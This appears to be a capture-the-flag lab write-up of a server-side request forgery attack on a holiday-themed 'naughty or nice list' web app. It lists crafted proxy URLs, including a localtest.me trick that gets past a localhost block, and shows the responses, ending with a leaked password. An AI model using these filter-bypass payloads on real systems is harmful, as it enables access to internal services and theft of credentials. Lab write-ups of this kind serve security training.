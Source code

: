 CONVERTING THE PORT NUMBER 80 TO 22 :
http://10.10.116.4/?proxy=http%3A%2F%2Flist.hohoho%3A22

```
Welcome children!

To find out if you are currently on the naughty list or the nice list, please enter your name below!

Have a Merry Christmas! Ho ho ho!

- Santa

Name: 
Recv failure: Connection reset by peer 
```

CONVERTING THE PORT NUMBER 22 TO localhost/127.0.0.1 :
http://10.10.116.4/?proxy=http%3A%2F%2Flocalhost

http://10.10.116.4/?proxy=http%3A%2F%2F127.0.0.1

```
Welcome children!

To find out if you are currently on the naughty list or the nice list, please enter your name below!

Have a Merry Christmas! Ho ho ho!

- Santa

Name: 
Your search has been blocked by our security team. 
```

CONVERTING THE localhost TO localhost.me :
http://10.10.116.4/?proxy=http%3A%2F%2Flist.hohoho.localtest.me 

```
Welcome children!

To find out if you are currently on the naughty list or the nice list, please enter your name below!

Have a Merry Christmas! Ho ho ho!

- Santa

Name: 
Santa,

If you need to make any changes to the Naughty or Nice list, you need to login.

I know you have trouble remembering your password so here it is: Be good for goodness sake!

- Elf McSkidy 
```
>>WE USE THIS DOMAIN NAME BECAUSE localtest.me IS ALSO THE REFERERD AS localhost .
>>THIS WILL LET US TO RUN WEBSERVER LOCALLY AND GIVES THE MESSAGE FROM ELF AND THE PASSWORD.
